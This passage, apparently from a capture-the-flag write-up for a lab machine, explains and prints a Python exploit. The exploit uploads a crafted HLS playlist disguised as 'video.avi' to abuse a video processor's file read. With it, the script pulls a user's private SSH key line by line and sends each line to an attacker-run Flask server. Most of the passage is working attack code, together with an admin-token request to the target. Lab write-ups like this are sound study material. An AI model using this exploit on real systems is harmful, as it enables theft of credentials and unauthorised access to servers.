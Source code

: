 This Python script is used to automate the extraction of the file `/home/user/.ssh/id_rsa`. The situation is that we can read files from the server but line by line, so it will be very tedious to do it manually.

In order to read a single line, we must modify a text file called `video.avi` with the needed offset, according to the place where we wan to read from the file, then upload it to the website and finally receive the line in our HTTP server.

This script uses Flask as HTTP server to retrieve the lines of the files and `requests` to perform the file upload.

We start by parsing the command line arguments and setting up the Flask server:

```python
app = Flask(__name__)
file = ['-----BEGIN OPENSSH PRIVATE KEY-----']
enable = 0

def main():
    global IP
    global admin_token

    if len(sys.argv) != 3:
        print(f'Usage: python3 {sys.argv[0]} <lhost> <adminToken>')
        exit(1)

    IP = sys.argv[1]
    admin_token = sys.argv[2]


if __name__ == '__main__':
    main()
    upload_video(len(file[0]) + 1)
    app.run(host='0.0.0.0', port=80, debug=True)
```

Then, we upload the `video.avi` file with the corresponding offset (here, the `id_rsa` header was already set because it causes an error when Flask receives it, since there are some whitespaces aht Flask is not able to parse the HTTP request):

```python
def upload_video(offset: int):
    global IP
    global admin_token

    if offset > 10000:
        os._exit(0)

    payload = f'''
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://{IP}/header.m3u8|subfile,,start,{offset},end,10000,,:/home/user/.ssh/id_rsa
#EXT-X-ENDLIST
'''[1:]

    requests.post('http://10.10.11.157/admin/video/upload', headers={
        'Host': 'internal-api.graph.htb',
        'admintoken': admin_token
    }, files=[
        ('file', ('video.avi', payload.encode(), 'video/x-msvideo'))
    ])
```
